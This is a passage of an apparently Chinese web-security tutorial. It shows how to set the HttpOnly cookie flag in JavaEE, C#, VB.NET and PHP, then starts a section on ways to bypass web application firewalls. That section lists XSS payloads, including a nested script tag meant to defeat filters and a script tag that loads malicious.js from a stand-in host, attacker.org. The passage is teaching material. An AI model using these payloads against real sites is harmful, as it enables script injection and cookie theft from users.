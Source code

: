 目前sun公司还没有公布相关的API，但PHP、C#均有实现。搞javaEE的兄弟们比较郁闷了，别急下文有变通实现

### 3.HttpOnly的设置样例

```
javaEE
response.setHeader(“Set-Cookie”, “cookiename=value;
Path=/;Domain=domainvalue;Max-Age=seconds;HTTPOnly”);
```

具体参数的含义再次不做阐述，设置完毕后通过js脚本是读不到该cookie的，但使用如下方式可以读取

```
Cookie cookies[]=request.getCookies();
```



    C#
    HttpCookie myCookie = new HttpCookie("myCookie");
    myCookie.HttpOnly = true;
    Response.AppendCookie(myCookie);
    
    VB.NET
    Dim myCookie As HttpCookie = new HttpCookie("myCookie")
    myCookie.HttpOnly = True
    Response.AppendCookie(myCookie)

但是在 .NET 1.1 ,中您需要手动添加

```
Response.Cookies[cookie].Path += “;HTTPOnly”;
```



    PHP4
    header("Set-Cookie: hidden=value; httpOnly");
    
    PHP5
    setcookie("abc", "test", NULL, NULL, NULL, NULL, TRUE);

 最后一个参数为HttpOnly属性

## 9.常规waf绕过思路

1. 1.标签语法替换

```JS
<scr<script>ipt>alert("XSS")</scr<script>ipt>
<script>alert("XSS")</script>
<script src="http://attacker.org/malicious.js"></script>
```

2. 2.特殊符号干扰
3. 3.提交方式更改

4. 4.垃圾数据溢出

5. 5.加密解密算法
